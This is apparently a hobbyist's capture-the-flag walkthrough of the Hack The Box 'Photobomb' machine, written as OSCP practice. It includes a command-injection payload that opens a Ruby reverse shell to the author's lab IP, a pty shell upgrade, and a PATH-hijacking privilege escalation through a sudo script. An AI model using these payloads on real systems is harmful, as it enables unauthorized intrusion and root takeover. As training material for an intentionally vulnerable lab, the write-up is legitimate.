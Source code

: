 ```yaml
---
id: 6
title: CTF Walkthroughs - Photobomb
description: My walkthrough of the Photobomb machine on hackthebox.com
publishedDate: 01/25/2023
featureImage: https://i.imgur.com/LbooXdNh.png
---
```


## Intro

Hello Internet!

So I know it's been a few months since my last post, ugh I told myself I wouldn't go this long in between posts!

It's been a while since my last post, but I've actually been pretty busy in the pentesting/learning area! I worked through the whole advent of cyber program throughout December, and started working through the Red Team Modules in TryHackMe.com as well!

So I thought I might take a little bit of a break from TryHackMe, and started looking at HackTheBox.com. My goal is to take my OSCP test later this year, so I'm trying to get into more of a frequency of working on these vulnerable boxes. Unintended side effect of this is that means I'll be having more posts as I work through these!

So anyways, to get a feel for HackTheBox, I did a couple easy machines. One of them, soccer, I confess I did while going through someone else's walkthrough, so I didn't think that should be one that I blog about. I then did precious.htb, but I was kind of bad about not taking screenshots of the steps, so I finished getting the flags, but I kind of gave up on the write-up.

So today I'm writing about the photobomb HackTheBox machine! This machine is rated easy (I'm sticking with the easy ones for now until I start to feel more comfortable with what I'm doing), and has quite a few owns on it, so it looks like it should be a good first post on HackTheBox!

Ok, let's get started!

## Recon

First off, I started with an nmap scan.

`nmap -sC -sV 10.10.11.182`

![f11e59756439cc78acbbe502479884df.png](https://i.imgur.com/lT0h4nl.png)
Ok, looks like ports 22 and 80 are open, and if I try to hit http://10.10.11.182, I get an attempted redirect to http://photobomb.htb. So looks like I need to add that to my host file.

After adding the host file entry, I first navigate to the page, and this is what I see:
![b42737bbdd4c2b0c052b0fa734970e6e.png](https://i.imgur.com/sjqxJYX.png)
I reload the page with the network tab open and start looking at the headers in the response. I've noticed that with the HTB machines compared to the TryHackMe rooms, it seems like with the boxes I've done there's been way more emphasis on the headers.

Anyways, nothing in the headers, but there's a link on the home page to "get started", guess I'll try that out?

![d34a1463dda6cfa17bf6c9cbaad989df.png](https://i.imgur.com/ofrKhFi.png)
Ooohhh, ok, looks like I need a login for that, not going to get there yet...
Ok, I go ahead and git dirbuster up and running to see if there are any other pages to look at. If you haven't picked up from my screenshots, I'm using Kali for this, I used TryHackMe's Attackbox throughout my posts on those rooms, just for ease of use. Since I'm starting to study for OSCP though, I figured it was time to actually start using a dedicated instance, so I'm running a VM of Kali to work from.

While dirbuster is running, I start looking through the CSS files and JS files to see if there is anything I can work with from there.

![afe2dbd2315a0de9484da62e416e588c.png](https://i.imgur.com/6zroPoI.png)
Looks like in photobomb.js there's a reference to look for a cookie, and if that cookie is set, then you get routed to some sort of page...

![763e0f59f129202e79ede2e3d27109dd.png](https://i.imgur.com/LbooXdN.png)Hmmmm, interesting, looks like that "logs me in" as the pH0t0 user, neat!

Ok, so it doesn't look like there's much to this page, you pick an image, an image size value and image type value and, the site returns with the image in that size and format.

![1e4ff86a80bae992b87339f723eb0875.png](https://i.imgur.com/PTr7MO3.png) It looks like the filename, filetype and image size parameters are sent back in the POST request, I wonder if I can manipulate those parameters?

I'm just going to try removing one of them to see if I get any errors.

![c3395328f85a178255c706ad473f12ad.png](https://i.imgur.com/6Jytho4.png)
Ahhh, interesting! So I removed the photo parameter from the POST request, and triggered a Sinatra error page that displays the code where the error occurred! I'm now able to read part of the file that's doing this processing!

I wonder if the same thing will happen if I remove other parameters.
![f467029dadd834cd4ea7d26513efc821.png](https://i.imgur.com/2kokHw9.png) Here's the part of the code that looks at the filetype parameter.

![daf44de473b8b15ddabfb5efb5b888f4.png](https://i.imgur.com/vyOv6gE.png) Here's the part of the code that looks at the file Size parameter.

## Foothold

OK, from looking at that fileType parameter, it looks like there's just a check to see if "png" or "jpg" is in the parameter. I'm going to see if I can inject any commands into that parameter and maybe trigger something. Unfortunately, there's no response text section, so I can't just like inject "whoami" or "echo $PWD" or anything fun like that. I'll set up a netcat listener and see if maybe I can use curl?

Here's the modified request
![18bada8ec0ce69f87c5c2f3525b38215.png](https://i.imgur.com/q2JdlXd.png)
![d2750cd46ba3be02c1e432e449f6f263.png](https://i.imgur.com/0aNdW1i.png) Heyyyyy, looks like we can use curl! (Had to recreate this screenshot after disconnecting and re-connecting, so the IP was different)
Ok, I think from here I have to try and get some sort of reverse shell going

I used reverseshells.com and spent a good few hours trying a number of different options, both URLEncoded and not encoded. Ultimately I eventually realized that if this site is using Sinatra and the errors we saw were from Ruby files, we should be able to use Ruby for a reverse shell!

Here's the request. minus any spaces and with the %3b in place of a semicolon:
`%3bruby+-rsocket+-e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.33",9090))'`
![0e101cbc272c78a010f4ba295e9fe5da.png](https://i.imgur.com/PLoL0Du.png)

![123f6ace8a0ac0f3781d5df29796a03b.png](https://i.imgur.com/lQUEaZh.png)Aaaaannnnd we have the terminal now!

Before looking for flags, let's get this to a more stable terminal session
`python3 -c "import pty; pty.spawn('/bin/bash')"`

I still can't use my arrow keys or tab-complete, but this is a little more stable.

The user flag was fairly easy to find, just in /home/wizard/user.txt

## Privilege Escalation

With the user flag out of the way, I wanted to start looking for privilege escalation vulnerabilities. Let's check if my user can run any sudo commands

`sudo -l`

![42f55b6f6c4baf004e7753f2bc546b39.png](https://i.imgur.com/Ivf0w3N.png)
Interesting.... Looks like I can run this cleanup.sh script witrh sudo privileges and don't even need the password!
Let's take a look at this cleanup.sh file
![433882a1f54fd6cb3ade3bef9a744396.png](https://i.imgur.com/rYNwCiR.png) Ok, so I notice that most of the commands have the full path to the command listed ("/usr/bin/truncate" instead of just "truncate"). The last line of the script has both the "find" command and the "chown" command without the full path.
Because of this, I should be able to add append another location to the beginning of the $PATH environment variable, and write my own definition of either the "find" or "chown" command. I can put anything I want in there then and (hopefully) get a root shell!

I tested this out by making a "find" file with just "whoami" as the command inside the file

`echo "whoami" > find`

I next had to make the file executable:
`chmod +x file`

Then I added the current working directory to the PATH variable temporarily and ran the script:
`sudo PATH=$PWD:$PATH /opt/cleanup.`
You can see in the screenshot I tried to run it when the find file didn't have executable privileges, but once I set those privileges, then it worked!
![40a0c3670164a6aa3381f3fa8a1c2e85.png](https://i.imgur.com/T3DeGuK.png)
Ok cool, I just have to change the find file to run "bash" and we should be golden!

I wasn't able to get an editor up, so I just deleted the find file I made earlier and made a new one:
![a56526cf1636bea89dddb49d0723edde.png](https://i.imgur.com/U3QVyam.png)
We have root access now!!

Root flag was just in /root/root.txt, so nothing too difficult to find!

Welp, that wraps up this machine! I admit, I got stuck on the reverse shell payload for a good couple of hours, and I also got stuck on the privilege escalation for a while (I tried exporting the path with the directory and for some reason it was working. Then I was accidentally writing `sudo $PATH=$PWD:$PATH /opt/cleanup.` and it wasn't doing anything either).

Not too bad for one of my first machines on Hack The Box though! Since I'm now studying up for my OSCP test, I'll (hopefully) be posting more of these, so we'll see you (soon) on the next one!
